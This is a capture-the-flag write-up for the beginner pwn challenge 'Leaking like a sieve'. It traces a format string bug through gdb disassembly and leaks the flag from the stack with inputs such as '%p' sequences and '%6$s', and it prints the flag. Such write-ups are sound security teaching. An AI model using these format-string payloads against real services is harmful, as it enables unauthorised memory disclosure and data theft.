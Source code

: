 ___
# Leaking like a sieve
_(pwn, beginner, 100 pts, 419 solves)_

This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31918`

[hellothere](./hellothere)
___

## Investigation
`checksec` showed that NX and PIE are enabled for the binary. Following the `ltrace` I learned the flow of the program and found no potential
buffer overflow vulnerability at first sight. I loaded the program into `gdb` and disassembled the `main` function, which was the only function of interest here.

```
...
0x0000000000001201 <+41>:	lea    rsi,[rip+0xe00]        # 0x2008  "r"
0x0000000000001208 <+48>:	lea    rdi,[rip+0xdfb]        # 0x200a  "./flag.txt"
0x000000000000120f <+55>:	call   0x1080 <fopen@plt>
...
0x000000000000125d <+133>:	lea    rax,[rbp-0x50]
0x0000000000001261 <+137>:	mov    esi,0x20
0x0000000000001266 <+142>:	mov    rdi,rax
0x0000000000001269 <+145>:	call   0x1070 <fgets@plt>
0x000000000000126e <+150>:	lea    rdi,[rip+0xe1c]        # 0x2091  "\nHello there, "
0x0000000000001275 <+157>:	mov    eax,0x0
0x000000000000127a <+162>:	call   0x1060 <printf@plt>
0x000000000000127f <+167>:	lea    rax,[rbp-0x50]
0x0000000000001283 <+171>:	mov    rdi,rax
0x0000000000001286 <+174>:	mov    eax,0x0
0x000000000000128b <+179>:	call   0x1060 <printf@plt>
...
```

We can see here that the program reads in the flag from a file somewhere in the beginning. Later, it asks the user for input, which gets stored at `rbp-0x50`,
and prints it out again using `printf`. Using this input as the first and only parameter to `printf` a format string vulnerability
is introduced. We can verify this by inputting some format strings like `%p %p %p %p %p %p %p %p` and see that memory addresses from the programs stack get leaked.

```
(gdb) r
...
What is your name?
%p %p %p %p %p %p %p %p

Hello there, 0x7fffffffbd30 (nil) 0x7ffff7ed6387 0x7fffffffde60 (nil) 0x7fffffffde80 0x5555555592a0 0x7025207025207025

What is your name?
```

## Solution
As it happens the flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth
address on the stack as a string and print it out. Et voila!

```
(gdb) r
...
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
